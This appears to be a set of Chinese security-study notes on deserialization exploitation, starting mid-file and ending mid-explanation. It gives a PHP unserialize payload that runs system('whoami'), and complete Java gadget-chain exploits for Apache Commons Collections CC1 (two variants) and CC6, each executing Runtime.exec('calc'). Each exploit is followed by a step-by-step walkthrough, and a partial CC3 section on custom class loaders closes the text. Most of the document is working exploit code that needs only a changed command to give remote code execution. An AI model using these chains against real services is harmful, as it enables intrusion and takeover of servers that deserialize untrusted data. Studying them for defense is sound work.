$func($var);
}
}
}
}
$Getflag = new GetFlag();
$Getflag->func = "system";
$Getflag->var = "whoami";
$Getflag->a = INF;$Getflag->b = "INF";
//或
//$Getflag->a = NAN;$Getflag->b = "NAN";
//或
//$Getflag->a = new Error("payload",1);$Getflag->b = new Error("payload",2);
//或
//$Getflag->a = new Exception("payload",1);$Getflag->b = new
Exception("payload",2);


$Start1 = new Start();
$Start1->arg = $Getflag;
$Start2 = new Start();
$Start2->arg = $Start1;
$payload = serialize($Start2);
echo $payload;
unserialize($payload);
```


## CC1(1)

```
public static void main(String[] args) throws Exception {
        // 1. 构造恶意Transformer调用链：最终目的是执行Runtime.getRuntime().exec("calc")
        Transformer[] transformer = new Transformer[]{
                // 步骤1：返回Runtime.class对象
                new ConstantTransformer(Runtime.class),
                // 步骤2：调用Runtime.class的getMethod方法，获取getRuntime静态方法
                new InvokerTransformer("getMethod", 
                        new Class[]{String.class, Class[].class}, 
                        new Object[]{"getRuntime", null}),
                // 步骤3：调用getRuntime方法的invoke，执行Runtime.getRuntime()得到Runtime实例
                new InvokerTransformer("invoke", 
                        new Class[]{Object.class, Object[].class}, 
                        new Object[]{null, null}),
                // 步骤4：调用Runtime实例的exec方法，执行calc命令
                new InvokerTransformer("exec", 
                        new Class[]{String.class}, 
                        new Object[]{"calc"})
        };

        // 2. 串联Transformer数组：按顺序执行每个Transformer的transform方法
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

        // 3. 构造恶意Map：TransformedMap会在value被修改时触发Transformer
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "aaa");
        // 装饰Map：key无转换，value使用恶意chainedTransformer
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 4. 构造触发反序列化的核心对象：AnnotationInvocationHandler
        // 反射获取私有构造方法（该类是sun包下处理注解的类，其readObject会触发Map的setValue）
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        // 突破访问权限（构造方法是private）
        annotationInvocationHandlerConstructor.setAccessible(true);
        // 实例化：传入任意注解类（Target.class）+ 恶意Map
        Object o = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);

        // 5. 序列化恶意对象 + 反序列化触发漏洞
        serialize(o);   // 将恶意对象写入ser.bin
        unserialize("ser.bin"); // 反序列化时触发命令执行
    }
```


1. 构造调用链

- ConstantTransformer → 返回Runtime.class
- InvokerTransformer → 调用getMethod("getRuntime")
- InvokerTransformer → 调用invoke执行getRuntime()
- InvokerTransformer → 调用exec("calc")
2. 串联执行链
  - ChainedTransformer → 按顺序执行上述Transformer
3. 包装恶意Map
  - HashMap → 基础Map
  - TransformedMap → 装饰Map，value关联恶意Transformer
4. 构造触发对象
  - 反射获取AnnotationInvocationHandler构造方法
  - 实例化时传入恶意Map
5. 触发漏洞
  - 序列化恶意对象到ser.bin
  - 反序列化ser.bin → 触发readObject
  - readObject调用Map.setValue → 执行Transformer链
  - 最终执行Runtime.exec("calc")




## CC1(2)

```
public static void main(String[] args) throws Exception {
        // 1. 构造恶意Transformer调用链：最终执行Runtime.getRuntime().exec("calc")
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 步骤1：返回Runtime.class
                new InvokerTransformer("getMethod",     // 步骤2：调用getMethod获取getRuntime方法
                        new Class[]{String.class, Class[].class}, 
                        new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",        // 步骤3：执行getRuntime()得到Runtime实例
                        new Class[]{Object.class, Object[].class}, 
                        new Object[]{null, null}),
                new InvokerTransformer("exec",          // 步骤4：调用exec执行calc命令
                        new Class[]{String.class}, 
                        new Object[]{"calc"})
        };
        // 串联Transformer：按顺序执行transform方法
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

        // 2. 构造LazyMap：核心特性是「get不存在的key时，调用Transformer生成value」
        HashMap<Object, Object> map = new HashMap<>();
        // 装饰HashMap为LazyMap，关联恶意Transformer
        Map<Object, Object> lazyMap = LazyMap.decorate(map, chainedTransformer);

        // 3. 反射获取AnnotationInvocationHandler构造方法（私有）
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true); // 突破访问权限

        // 4. 构造InvocationHandler实例：作为动态代理的「调用处理器」
        InvocationHandler h = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class, lazyMap);

        // 5. 生成Map的动态代理对象：代理所有Map接口方法，调用时转发到h的invoke方法
        Map mapProxy = (Map) Proxy.newProxyInstance(
                LazyMap.class.getClassLoader(),  // 类加载器
                new Class[]{Map.class},          // 代理的接口（Map）
                h                               // 调用处理器
        );

        // 6. 再次构造AnnotationInvocationHandler实例：传入代理的Map对象
        Object o = annotationInvocationHandlerConstructor.newInstance(Override.class, mapProxy);

        // 7. 序列化+反序列化：触发漏洞
        serialize(o);   // 将恶意对象写入ser.bin
        unserialize("ser.bin"); // 反序列化时触发命令执行
    }
}
```

​     1.构造恶意调用链

- ConstantTransformer → 返回Runtime.class
- InvokerTransformer → 调用getMethod("getRuntime")
- InvokerTransformer → 调用invoke执行getRuntime()
- InvokerTransformer → 调用exec("calc")
2. 包装LazyMap
  - HashMap → 基础空Map
  - LazyMap → 装饰Map，关联恶意Transformer（get不存在key时触发）
3. 构造动态代理
  - 反射获取AnnotationInvocationHandler构造方法
  - 实例化Handler → 作为代理的调用处理器
  - 生成Map代理对象 → 方法调用转发到Handler
4. 构造最终触发对象
  - 再次实例化AnnotationInvocationHandler → 传入代理Map
5. 反序列化触发漏洞
  - 序列化恶意对象到ser.bin
  - 反序列化 → 执行readObject
  - 遍历代理Map → 调用get方法
  - 代理转发到invoke → 调用LazyMap.get
  - 触发Transformer链 → 执行calc命令




## CC6

```
public static void main(String[] args) throws Exception {
        // 1. 构造恶意Transformer调用链：最终执行Runtime.getRuntime().exec("calc")
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 步骤1：返回Runtime.class
                new InvokerTransformer("getMethod",     // 步骤2：调用getMethod获取getRuntime方法
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",        // 步骤3：执行getRuntime()得到Runtime实例
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}),
                new InvokerTransformer("exec",          // 步骤4：调用exec执行calc命令
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

        // 2. 构造LazyMap：初始绑定「无害的ConstantFactory」，避免提前触发恶意链
        HashMap<Object, Object> map = new HashMap<>();
        // 初始factory为ConstantFactory(1)（仅返回1，无危害）
        Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantFactory(1));

        // 3. 构造TiedMapEntry：绑定LazyMap和key "aaa"
        // 核心特性：TiedMapEntry的hashCode()/equals()会调用 绑定Map.get(key)
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

        // 4. 构造HashMap并放入TiedMapEntry：作为最终序列化的对象
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb"); // key是TiedMapEntry，value是任意值

        // 5. 移除LazyMap中的key "aaa"：确保后续get("aaa")时key不存在，触发factory
        lazyMap.remove("aaa");

        // 6. 反射修改LazyMap的factory：将无害的ConstantFactory改为恶意的chainedTransformer
        Class<?> c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory"); // 获取LazyMap的私有字段factory
        factoryField.setAccessible(true); // 突破访问权限
        factoryField.set(lazyMap, chainedTransformer); // 替换factory为恶意链

        // 7. 序列化+反序列化：触发漏洞
        serialize(map2);   // 将包含TiedMapEntry的HashMap写入文件
        unserialize("ser.bin"); // 反序列化时触发命令执行
    }
}
```

​    1.构造恶意调用链
- ConstantTransformer → 返回Runtime.class
- InvokerTransformer → 调用getMethod("getRuntime")
- InvokerTransformer → 调用invoke执行getRuntime()
- InvokerTransformer → 调用exec("calc")
2. 初始化LazyMap
  - HashMap → 基础空Map
  - LazyMap → 初始绑定无害ConstantFactory(1)
3. 构造触发载体
  - TiedMapEntry → 绑定LazyMap和key "aaa"
  - HashMap(map2) → 放入TiedMapEntry作为key
4. 关键预处理
  - 移除LazyMap中"aaa" → 确保key不存在
  - 反射修改LazyMap.factory → 替换为恶意Transformer链
5. 反序列化触发漏洞
  - 序列化map2到ser.bin
  - 反序列化map2 → 计算TiedMapEntry.hashCode
  - 调用LazyMap.get("aaa") → 触发factory
  - 执行Transformer链 → 弹出calc计算器





## CC3

相较于cc1，这条**cc3链**就是改变了最后的执行类。

自定义类加载器：

实现一个自定义类加载器需要继承 ClassLoader ，同时覆盖 findClass 方法。

ClassLoader 里面有三个重要的方法 loadClass() 、findClass() 和 defineClass() 。

loadClass() 方法是加载目标类的入口，它首先会查找当前 ClassLoader 以及它的双亲里面是否已经加载了目标类，如果没有找到就会让双亲尝试加载，如果双亲都加载不了，就会调用 findClass() 让自定义加载器自己来加载目标类。ClassLoader 的 findClass() 方法是需要子类来覆盖的，不同的加载器将使用不同的逻辑来获取目标类的字节码。拿到这个字节码之后再调用 defineClass() 方法将字节码转换成 Class 对象。


